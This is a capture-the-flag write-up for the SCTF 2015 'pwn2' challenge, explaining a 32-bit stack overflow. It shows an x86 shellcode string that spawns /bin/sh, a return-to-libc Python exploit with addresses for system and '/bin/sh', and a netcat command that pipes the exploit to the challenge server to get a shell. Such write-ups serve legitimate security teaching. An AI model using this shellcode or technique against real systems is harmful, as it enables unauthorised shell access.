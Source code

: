 ## pwn2 - 120 (Pwning) ##
#### Writeup by r3ndom_ #####
Created: 2015-12-08

### Problem ###
This one is a bit more complicated...nc pwn.problem.sctf.io 1338

Flag is in flag.txt

### Hint ###
It runs on the same box as pwn1.

## Answer ##

### Overview ###
The binary for pwn2 contains no imports for system and as such we can't spawn a shell with that. This means we have to turn to pwn1 to get the addresses of system and "/bin/sh" in libc. 

### Details ###
The buffer is yet again at an offset of 0x2c from the location that will be retn'd. This means we begin with the same concept. 

```python
shell_code = 'A'*0x2c
```

Then we find how to eip to be esp.
First find a push esp, the opcode for this inst is 0xff 0xf4.
We can use the 0xff 0xf4 from _start that is part of the call to __libc_start_main. 

The next instructions are all xchg ax, ax. This is effectively a nop and is used by gcc for spacing. Then theres a function that retns without changing the stack. Perfect, our code will fall through from there.

```python
shell_code += '\xd0x83\x04\x08'
```

There we go, that'll call anything we put past this point.

Now we write a little bit of shellcode to call system.

```python
shell_code += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
print shell_code
```

Now we just pipe that in to the pwn1 server to get a call of any system inst that can be "/bin/sh" to spawn us a shell.

After this go to the tmp directory so you can use gdb (it only works with file write perms), wget pwn2. Then you can execute gdb on pwn2 and do:

```
b main
r
p system
find &system,+999999,"/bin/sh"
```

This will find you the addresses you need to ROP pwn2.

Now you can build an exploit for pwn2.

```python
import struct
def gen_ptr(a):
	return struct.pack("<L", a)
rop = 'A'*0x2c

# system address
rop += gen_ptr(0xb7e67190)

# filler
rop += 'wow_'

# "/bin/sh" address
rop += gen_ptr(0xb7e5a1e0)

print rop
```

Now just

```
cat <(python rop.py) - | nc pwn.problem.sctf.io 1338
```

and you can use the shell on pwn2 to cat flag.txt.

### Flag ###

    flag{p0pp1ng_sh3ll_thr0ugh_libc}

